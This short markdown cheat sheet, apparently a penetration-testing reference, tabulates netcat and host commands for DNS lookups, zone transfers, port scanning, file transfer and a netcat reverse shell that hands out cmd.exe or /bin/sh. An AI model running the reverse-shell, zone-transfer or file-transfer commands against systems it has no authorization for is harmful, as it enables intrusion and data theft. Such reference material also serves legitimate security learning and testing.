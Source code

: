 # rtfm

## network

<table>
  <tr>
    <th>command</th>
	<th>description</th>
  </tr>
	<tr>
		<td>host -t ns <i>domain</td>
		<td>ask the name servers for a domain</td>
	</tr>
	<tr>
		<td>host -l <i>domain nameServer</td>
		<td>dns zone transfer</td>
	</tr>
	<tr>
		<td>nc <i>ip port</i> -e <i>shell</td>
		<td>start reverse shell: cmd.exe, /bin/sh</td>
	</tr>
	<tr>
		<td>nc -l -p <i>port</td>
		<td>start listener</td>
	</tr>
	<tr>
		<td>nc -v -n -z -w1 <i>ip startPort</i> - <i>endPort</td>
		<td>tcp port scanner</td> 
	</tr>
	  <tr>
		<td>nc -l -p <i>port fileName</i><br>nc -w3 <i>ip port fileName</td>
		<td>file transfers</td>
	</tr>
</table>
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE5NjY1ODg1MTVdfQ==
-->